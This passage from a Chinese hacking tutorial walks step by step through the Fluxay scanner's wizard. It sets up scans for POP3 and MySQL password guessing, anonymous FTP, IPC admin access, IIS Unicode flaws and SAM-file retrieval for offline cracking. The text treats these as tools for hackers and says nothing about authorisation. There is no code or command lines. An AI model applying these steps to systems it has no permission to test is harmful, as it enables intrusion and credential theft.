下面看一下流光的操作方法。在文件菜单中点选“高级扫描向导”，如图 1-2-28 所示，弹出“设置”对话框，如图 1-2-29 所示。

> **阿瓜乱语：** 有向导真好啊！露营时有向导就不会迷路了。





在 1-2-29 的对话框中填写要扫描的 IP 地址，在“目标系统”中选择相应的系统，这里有三个选择：ALL、NT/WIN2000、UNIX/LINUX。“检测项目”的选择要根据目标系统来选择，因为这些项目分别针对不同的系统，如果不清楚怎么选，就全选，或者只选自己感兴趣的。这里提供了一共 12 个检测项目，基本上涉及到了现在最常用的扫描功能。选好以后，点击“下一步”，弹出如图 1-2-30 所示对话框。

这一步是设定要扫描的端口。有两种选择：选择“标准端口”或“自定义扫描范围”。其中“标准端口”就是常见的 HTTP、FTP、TELNET 等对应的服务端口。设定好了吗？好了，那看下一步，如图 1-2-31 所示。

> **阿凡小注：** 出现的扫描向导内容与第一步选择的检测项目有关，若前面没选择某些项目，则后面就不出现相关设置对话框。例如前面没选择“POP3”这一检测项目，那么这里就不会出现图 1-2-31。



1-2-30 扫描向导之二



1-2-31 扫描向导之三

在这里，如果选择“获取 POP3 版本信息”，那么扫描结果就会显示被扫描对象的 POP3 版本信息，根据这些信息可以查到相关的漏洞资料。若要“尝试猜解用户”，流光在扫描时就会用默认的字典文件对 POP3 用户和密码进行猜解。选择完毕后点击下一步，弹出如图 1-2-32 所示窗口。



1-2-32 扫描向导之四

这是 FTP 扫描选项。对于 FTP 扫描来说，匿名登录是个重要的探测目标。选择完毕，进行下一步。


1-2-33 扫描向导之五

如图 1-2-33 所示，EXPN/VRFY 扫描：通过 SMTP 的 EXPN/VRFY 验证用户是否存在。点击下一步。


1-2-34 扫描向导之六

如图 1-2-34 所示，再点击下一步，弹出如图 1-2-35 所示窗口。



1-2-35 扫描向导之七

这是 TELNET 的扫描。

> **阿瓜乱语：** 这里的扫描只限于系统版本，没有其它的扫描，这里应该可以改进得更好一点。等我再修炼修炼，想办法实现更多的功能，嘿嘿，那可爽了……

点击下一步，如图 1-2-36 所示。



图 1-2-36 扫描向导之八

这是 CGI 扫描选项设置。这里提供了“根据版本决定采用 NT 或者 UNIX 方式”，与 XSCAN 比较更加方便。完成后，点击下一步。



图 1-2-37 扫描向导之九

如图 1-2-37 所示，这里是 CGI 规则设置。在这可以选择要扫描的 CGI 类型，如果上一步已经选了“根据版本决定采用 NT 或者 UNIX 方式”，那么这里选择“ALL”即可。设置完毕，点击下一步。

如图 1-2-38 所示，这是针对 SQL 数据库服务器的扫描设置。如果要扫描的主机提供 SQL 数据库服务，那么这个扫描选项将十分有用。选择完毕，点击下一步。



1-2-38 扫描向导之十



1-2-39 扫描向导之十一

如图 1-2-39 所示，这一步是针对 IPC 进行扫描，如果这个扫描得到好的结果，常常是令人激动的。因为你有可能直接得到主机的系统管理员权限。选择好扫描选项后，来看下一步（如图 1-2-40）。



1-2-40 扫描向导之十二

微软的 IIS 服务器对于黑客来说，真是好东西，因为它的安全漏洞太多了。其中的“Unicode 编码”漏洞和“FrontPage 扩展”漏洞是最著名的两个，建议扫描时这两个都选上。“尝试获取 SAM 文件”：NT/2000 的密码文件存在于 SAM 文件中，如果获得了 SAM 文件就可以在本地利用 L0pht（www.atstake.com/lc 下载）进行破解。

选择完毕后，点击下一步。



1-2-41 扫描向导之十三

如图 1-2-41 所示，“猜解 MySQL 密码”：MySQL 是一种很常见的免费的轻量级数据库（一般国内常见的模式是 NT+IIS+MSSQL/UNIX+Apache+MySQL），得到了 MySQL 的密码就可以查阅数据库中的所有内容。点击下一步。


1-2-42 扫描向导之十四

如图 1-2-42 所示，“PLUGIN 列表”：列出当前安装的所有的 PLUGIN 信息。流光 IV 中的 PLUGIN 是一项很有用的功能，可以很方便地利用现有流光的扫描框架进行扩展。在扫描时选上这些 PLUGINS（插件），就可以进行相应的漏洞扫描。设置完毕后，点击下一步。

如图 1-2-43 所示，在这一步可以设置进行密码探测时所用的字典文件、扫描报告存放位置和线程。可以根据情况增减线程大小，线程数目越大速度越快，但是越容易误报和漏报。“网络选项”指的是“超时”的设置，可以不动它。

点击“完成”，好了，全部扫描设置完成。


> **橙哥点拨：** 这些扫描选项可不能在扫描一个网段时都选上，不然会慢死的。阿瓜你可不要误导别人啊！

在点击完成之后会弹出如图 1-2-44 所示的对话框，让你选择流光主机。如果你在别的主机上安装了 Sensor，那么就可以利用别的主机进行扫描，否则用自己的主机进行扫描就可以了。


点选“详情”按钮则进入 Sensor 管理对话框，如图 1-2-45 所示。


在这里可以增加或删除 Sensor 主机。关于如何添加和设置 Sensor 主机，请参阅流光的帮助文件，这里不再赘述。

选择好流光主机后，点击“开始”，流光开始扫描，结果如图 1-2-46 所示。也可以查看扫描报告得到详细的资料。


1-2-46 扫描结果

